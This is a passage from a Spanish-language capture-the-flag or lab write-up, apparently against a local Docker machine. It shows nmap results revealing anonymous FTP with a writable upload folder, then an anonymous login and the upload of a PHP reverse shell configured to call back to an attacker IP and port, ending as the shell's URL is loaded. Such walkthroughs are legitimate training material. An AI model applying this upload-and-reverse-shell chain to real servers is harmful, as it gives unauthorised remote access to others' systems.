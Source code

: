 ```
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0            7816 Nov 25  2019 about.html
| -rw-r--r--    1 0        0            8102 Nov 25  2019 contact.html
| drwxr-xr-x    2 0        0            4096 Jan 01  1970 css
| drwxr-xr-x    2 0        0            4096 Apr 28 18:28 heustonn-html
| drwxr-xr-x    2 0        0            4096 Oct 23  2019 images
| -rw-r--r--    1 0        0           20162 Apr 28 18:32 index.html
| drwxr-xr-x    2 0        0            4096 Oct 23  2019 js
| -rw-r--r--    1 0        0            9808 Nov 25  2019 service.html
|_drwxrwxrwx    1 33       33           4096 Apr 28 21:08 upload [NSE: writeable]
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Mantenimiento
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
```
Vemos que tiene habilitado el usuario **Anonymous** y que hay un directorio llamado **upload**, en el que tenemos permisos de escritura y ejecución, así que lo primero será conectarnos por ftp y subir una archivo php con una reverse shell.
```bash
ftp 172.17.0.2
```
## Explotación.
Cuando nos pida el usuario ponemos "Anonymous" y ya podemos conectarnos.
```
❯ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:tbrux): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
Para la reverse shell yo he utilizado una de pentestmonkey disponibre en  [GITHUB](https://github.com/pentestmonkey/php-reverse-shell), que simplemente es copiar y pegar en un archivo y modificar la ip y el puerto.
```
$ip = '172.17.0.1';  // CHANGE THIS
$port = 4443;       // CHANGE THIS
```
Entramos al directorio **upload** y subimos el archivo php creado.
```bash
put revershell.php
```
```
ftp> cd upload
250 Directory successfully changed.
ftp> put reverseshell.php
local: reverseshell.php remote: reverseshell.php
229 Entering Extended Passive Mode (|||14563|)
150 Ok to send data.
100% |***********************************************************************************************************************************************************************************************|  5492       63.87 MiB/s    00:00 ETA
226 Transfer complete.
5492 bytes sent in 00:00 (13.09 MiB/s)
ftp> 
```
Una vez lo tenemos subido nos ponemos en escucha por el puerto que hemos configurado en el archivo **reverseshell.php**, y vamos a la dirección donde hemos subido nuesta reverse shell http://172.17.0.2/upload/reverseshell.php.